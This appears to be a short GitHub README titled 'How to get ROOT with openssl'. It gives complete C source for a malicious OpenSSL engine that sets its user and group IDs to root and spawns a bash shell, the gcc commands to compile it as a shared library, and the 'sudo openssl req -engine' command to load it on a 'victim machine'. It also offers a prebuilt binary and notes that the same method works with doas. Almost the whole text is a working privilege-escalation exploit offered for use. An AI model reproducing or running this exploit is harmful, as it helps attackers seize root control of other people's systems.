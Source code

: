 # openssl-privilege-escalation
How to get ROOT with openssl

On kali(attacker), create a file called exploit.c with the following content:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands:
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o

Upload exploit.so to the victim machine then run:
sudo openssl req -engine ./exploit.so
(also worked with doas because I have tested it)
I have uploaded the exploit.so, so you can just run the above command without building it
